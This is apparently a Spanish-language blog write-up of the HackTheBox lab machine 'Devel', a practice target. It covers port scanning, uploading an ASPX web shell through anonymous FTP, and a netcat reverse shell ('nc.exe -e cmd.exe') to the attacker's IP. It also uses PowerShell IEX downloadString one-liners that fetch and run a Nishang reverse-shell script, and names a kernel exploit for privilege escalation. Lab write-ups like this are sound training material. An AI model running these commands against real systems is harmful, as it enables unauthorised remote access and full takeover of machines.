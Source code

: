 ```yaml
---
layout: post
title: "Devel"
subtitle: 'HackTheBox - Easy Machine - Windows'
date: 2020-08-18 12:00:00
author: "TheusZero"
header-img: "images/post/WindowsMachines/Devel/1.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


devel corresponde a una maquina windows de nivel facil tanto en el user como en el root.

## Introduccion

Segun la comunidad podemos ver que devel tiene un nivel "facil" y podemos usar un CVE para atacar la maquina.
![](/TheusZero/images/post/WindowsMachines/Devel/3.png)
![](/TheusZero/images/post/WindowsMachines/Devel/2.png)

## Enumeracion

el nmap que arrojamos fue el siguiente:

```Python
root@kali# nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-21 21:22 EST
Nmap scan report for 10.10.10.5
Host is up (0.020s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds
```

Podemos ver que tenemos un puerto 21 ftp abierto y un puerto 80 con http funcionado, por ende, aondaremos con un -sC -sV en el peurto 21 y el 80 intentando encontrar algun tipo de script que podamos usar.

```Python
root@kali# nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-21 21:44 EST
Nmap scan report for 10.10.10.5
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

veemos que podemos acceder con **Anonymous** a la red del ftp y tenemos algunos archivos, como **welcome.png y iisstart.htm**

revisando el http 80 obtenemos lo siguiente:
![](/TheusZero/images/post/WindowsMachines/Devel/4.png)

esta imagen corresponde a la misma que se encuentra en el ftp llamada welcome, por ende, podemos intuir que el ftp corresponde a un directorio web que se ejecuta en la maquina, para comprobarlo revisamos el archivo **iisstart.htm**, entonces:

> http://10.10.10.5/iisstart.htm
>> nos deberia mostrar algun tipo de respuesta

Obtenemos esto:

```Python
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Mon, 25 Feb 2019 10:40:02 GMT
Connection: close
Content-Length: 689
```
exito, ya tenemos por donde explotar

## obtencion de una shell

windows rara vez tiene netcat o alguna reverse shell de las que tiene pentesteyMonkey por ende, debemos usar algunas diferentes que el sistema suele tener.
Con este comando obtenemos algunas reverse shell con aspx
```Python
root@kali# locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
root@kali# cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

> usando la de /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx

entramos al ftp y subimos la shell 
```Python
ftp> put cmd.aspx  
local: cmd.aspx remote: cmd.aspx 
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.                              
1442 bytes sent in 0.00 secs (985.4465 kB/s) 
```

vamos al 80 y revisamos la shell 

> http://10.10.10.5/cmd.aspx

![](/TheusZero/images/post/WindowsMachines/Devel/5.png)

subiremos el binario de netcat ahora para entablar una buena reverse shell

![](/TheusZero/images/post/WindowsMachines/Devel/6.png)

o bien 

```Python
root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe
```
ahora lo subiremos a ftp usando BINARY ya que asi la data no se corrompe, recordar utilizar md5

con netcat ya subido, lo buscamos usando recursion sobre el disco C:
![](/TheusZero/images/post/WindowsMachines/Devel/7.png)
```Python
C:/Ruta/nc.exe -e cmd.exe 10.10.14.14 443
```
![](/TheusZero/images/post/WindowsMachines/Devel/devel-shell.gif)
lo ejecutamos y estamos dentro

#### Nishang

> https://github.com/samratashok/nishang

Nishang es un framework de scripts y payloads para windows, especificamente para activar y usar la PowerShell que siempre es mas recomendable que el cmd.

primero hay que clonar en nuestro sistema el nishang

```Python
root@kali:/opt# git clone https://github.com/samratashok/nishang.git
Cloning into 'nishang'...
remote: Enumerating objects: 1660, done.
remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
Receiving objects: 100% (1660/1660), 6.62 MiB | 23.70 MiB/s, done.
Resolving deltas: 100% (1040/1040), done.
```

luego hay que copiar **InvokePowerShellTcp.ps1** desde **/opt/nishang/Shells/**.

> escribimos en **InvokePowerShellTcp.ps1** en el final lo siguiente:
>> Invoke-PowerShellTcp -Reverse -IPAddress MiIp -Port 443

lo subimos a la maquina y lo ejecutamos escribriendo el siguiente comando.

> start /b powershell IEX(New-Object Net.WebClient).downloadString('http://MyIpLoco:Puerto/InvokePowerShellTcp.ps1')

> recordar que son 2 sesiones diferentes de netcat. ojito.

listop, ahi tendriamos acceso a una powerShell. **PERO** muchas de las cosas que nos salen podrian ser falsos positivios.

Para evitar esto podemos hacer lo siguiente:
```Python
[Environment]::Is64BitsOperatingSystem //si es true entonces tamos bien
```

```Python
[Environment]::Is64BitsProcess
```
> si es falso, este proceso de shell es de 32bits, por lo que tenemos que migrar a mano a un proceso de 64 bits si o si debemos migrar

```start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```

> recordar que tenemos que tener una session de netcat en el puerto 443 abierta.

con esto logramos crear una powerShell que trabaje en 64bits, por lo que volvemos a lanzar un netcat para obtener la reverse shell otra vez

> preguntamos otra vez :
>> ```[Environment]::Is64BitsProcess```

una vez que es true podemos continuar y no van a darnos falsos positivos

#### root
con un systeminfo obtenemos la version de la maquina: 
![](/TheusZero/images/post/WindowsMachines/Devel/8.png)
ya con esto podemos dar por entendido que version es, ahora al colocarla en google podemos acceder a un exploit simple de nombre:
> MS11-046 exploit (buscar en github)

subimos el binario que esta disponible y listo, somos root. 


